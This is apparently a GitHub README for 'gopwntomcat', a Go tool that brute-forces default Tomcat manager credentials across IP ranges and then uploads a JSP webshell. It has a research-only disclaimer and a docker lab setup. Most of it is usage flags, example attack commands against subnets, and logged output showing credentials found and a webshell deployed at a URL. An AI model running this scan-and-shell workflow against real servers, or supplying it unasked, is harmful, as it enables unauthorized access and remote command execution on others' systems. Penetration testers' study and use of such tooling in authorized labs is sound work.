 # DISCLAIMER
This repository is for research purposes only, the use of this code is your responsibility.

I take NO responsibility and/or liability for how you choose to use any of the source code available here. By using any of the files available in this repository, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again, ALL files available here are for EDUCATION and/or RESEARCH purposes ONLY.

# gopwntomcat

This is a small little scanner and exploiting script. It will detect (brute-force) default credentials on a tomcat instance. If you find valid credentials you can use it to upload a command shell or a custom jsp shell.

## Example Environment

I used a docker container to test this script and so can you.

You create two files `tomcat-users.xml` and `context.xml` with the following content. I created them within `/tmp/`.

**tomcat-users.xml**:
```xml
<tomcat-users>
  <role rolename="manager-gui"/>
  <role rolename="manager-script"/>
  <user username="tomcat" password="s3cret" roles="manager-gui,manager-script"/>
</tomcat-users>
```

**context.xml**:
```xml
<Context antiResourceLocking="true" privileged="true" >
  <Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/>
   <Realm className="org.apache.catalina.realm.CombinedRealm">
    <Realm className="org.apache.catalina.realm.LockOutRealm"
      failureCount="50" lockOutTime="1" >
	    <Realm className="org.apache.catalina.realm.UserDatabaseRealm"
	      resourceName="UserDatabase"/>
    </Realm>
  </Realm>
</Context>
```

Then you start the docker container like so:

```bash
$ docker run \
  --name tomcat \
  -it --rm \
  -p 8080:8080 \
  -v /tmp/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml \
  -v /tmp/context.xml:/tmp/context.xml \
  tomcat \
  /bin/bash -c "mv /usr/local/tomcat/webapps /usr/local/tomcat/webapps2; mv /usr/local/tomcat/webapps.dist /usr/local/tomcat/webapps; cp /tmp/context.xml /usr/local/tomcat/webapps/manager/META-INF/context.xml; catalina.sh run"
```

If this succeeds you will have a tomcat running at http://your-ip:8080 with the manager @ /manager/html and the default login `tomcat:s3cret`.

## Usage
```
gopwntomcat v0.0.2
Usage: gopwntomcat -mode [scan|pwn] [mode specific options] (default: mode scan)

Scan options:
	-port		The port to use while scanning		(default: 8080)
	-ssl		Whether or not to use ssl		(default: false)
	-targeturi	Where the manager app is located at	(default: /manager/html)
	-threads	Concurrent threads while scanning	(default: 1)
	-rhost		IP or CIDR - you can define multiple
	OR!
	-file		File with targets one per line		(line example: http://ip:port)

	-proxy		Proxy for http requests			(ex: http://127.0.0.1:8080)

Pwn options:
	-port		The port to use for connection		(default: 8080)
	-ssl		Whether or not to use ssl		(default: false)
	-targeturi	Where the manager app is located at	(default: /manager/html)
	-user		Valid username for logon		(default: tomcat)
	-pass		Valid password for logon		(default: tomcat)
	-customjsp	Define custom jsp to upload		(default: embedded cmd jsp)
	-rhost		Single IP, no multiple -rhost flags allowed
	-os		Target OS (unix/linux/windows)		(default: unix)

Examples:
	Scan a /24 net with 5 threads and different manager url:
		gopwntomcat -targeturi /custom/path/to/manager/html -rhost 192.168.1.0/24
	Scan multiple ips on different port with ssl:
		gopwntomcat -port 8443 -ssl -rhost 192.168.1.12 -rhost 10.10.10.100
	Scan multiple ips on different port from file:
		gopwntomcat -file targets.txt
	Pwn a tomcat server you know the credentials of:
		gopwntomcat -mode pwn -rhost 192.168.1.12 -user tomcat -pass s3cret
	Pwn a tomcat server you know the credentials of with custom jsp:
		gopwntomcat -mode pwn -rhost 192.168.1.12 -user tomcat -pass s3cret -customjsp ./custom.jsp

```

## Scan
With the above environment in place a successful scan could look like this:

```bash
$ ./gopwntomcat -rhost 192.168.1.0/24 -threads 5
2021/02/24 14:54:03 Started scan
----------------------------------------------------------------
2021/02/24 14:54:03 Host 192.168.1.223 responded to /manager/html request
2021/02/24 14:54:03 Host 192.168.1.223 requires authentication. Proceeding with password guessing...
Valid credentials found @192.168.1.223 - tomcat:s3cret
----------------------------------------------------------------
2021/02/24 14:54:33 Scan completed
```

## Exploit
After you got valid credentials you can upload a command shell using this command:

```bash
./gopwntomcat -mode pwn -rhost 192.168.1.223 -user tomcat -pass s3cret
2021/02/24 14:57:45 Let the pwn begin
2021/02/24 14:57:45 Fetching sessin ID and CSRF token...
2021/02/24 14:57:45 Uploading and deploying n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB ...
2021/02/24 14:57:45 Uploading 1059 bytes as n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB.war ...
2021/02/24 14:57:45 Upload was successful. Find your shell @ http://192.168.1.223:8080/n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB/AJ8IVUezjlrg1g4DsKI80PVTinkchs8e.jsp
```

Navigating your browser to the link will result in a webshell showing up:

![screenshot](/screenshot.png "Command shell in browser")